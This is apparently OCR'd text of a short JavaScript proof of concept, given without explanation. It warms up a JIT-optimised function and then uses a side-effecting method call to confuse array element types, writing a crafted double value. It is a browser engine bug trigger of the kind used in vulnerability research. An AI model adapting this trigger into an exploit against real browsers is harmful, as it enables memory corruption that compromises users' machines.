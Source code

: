 
function opt(arr, arr2) {
    arr[0] = 1.1;

    arr2.method(arr2[0] = {});

    arr[0] = 2.3023e-320;
}

Object.prototype.method = () => {};

let arr = [1.1, 2.2];
for (let i = 0; i < 100; i++) {
    opt(arr, 1);  
    opt(arr, arr.concat());
}

setTimeout(() => {
    opt(arr, arr);
    alert(arr);
}, 100);  


